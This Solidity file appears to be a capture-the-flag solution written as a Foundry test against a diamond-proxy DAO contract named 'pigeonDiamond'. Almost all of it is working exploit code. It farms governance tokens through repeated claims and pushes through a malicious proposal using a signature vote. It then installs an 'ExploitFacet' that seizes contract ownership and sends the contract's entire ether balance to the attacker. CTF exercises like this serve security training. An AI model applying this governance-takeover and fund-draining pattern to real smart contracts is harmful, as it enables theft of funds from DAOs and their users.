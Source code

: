 ```solidity
contract ExploitFacet {
    function exploit() public {
        LibDiamond.setContractOwner(msg.sender);
        address(msg.sender).call{value: address(this).balance}("");
    }

    fallback() external {}
}

contract ExploitTest is Test {
    function test() public {
        (address playerAddress, uint256 playerKey) = makeAddrAndKey("player");
        Setup setup = new Setup{value: 3000 ether}();
        vm.deal(playerAddress, 10 ether);
        address pigeonDiamond = address(setup.pigeonDiamond());

        vm.roll(10);
        vm.startPrank(playerAddress, playerAddress);
        for (uint256 i = 0; i < 11; i++) {
            setup.claim();
        }
        FeatherCoinFacet(pigeonDiamond).delegate(playerAddress);
        ExploitFacet exploitFacet = new ExploitFacet();

        bytes4[] memory selectors = new bytes4[](1);
        selectors[0] = ExploitFacet.exploit.selector;
        uint256 proposalId = DAOFacet(pigeonDiamond).submitProposal(
            address(exploitFacet),
            "",
            IDiamondCut.FacetCut(address(exploitFacet), IDiamondCut.FacetCutAction.Add, selectors)
        );

        vm.roll(11);

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerKey, keccak256("\x19Ethereum Signed Message:\n32"));
        bytes memory sig = abi.encodePacked(r, s, v);
        DAOFacet(pigeonDiamond).castVoteBySig(proposalId, true, sig);
        emit log_named_decimal_uint("ether", playerAddress.balance, 18);

        vm.roll(20);

        DAOFacet(pigeonDiamond).executeProposal(proposalId);

        vm.roll(21);
        ExploitFacet(pigeonDiamond).exploit();
        assertTrue(setup.isSolved());

        vm.stopPrank();
    }
}
```

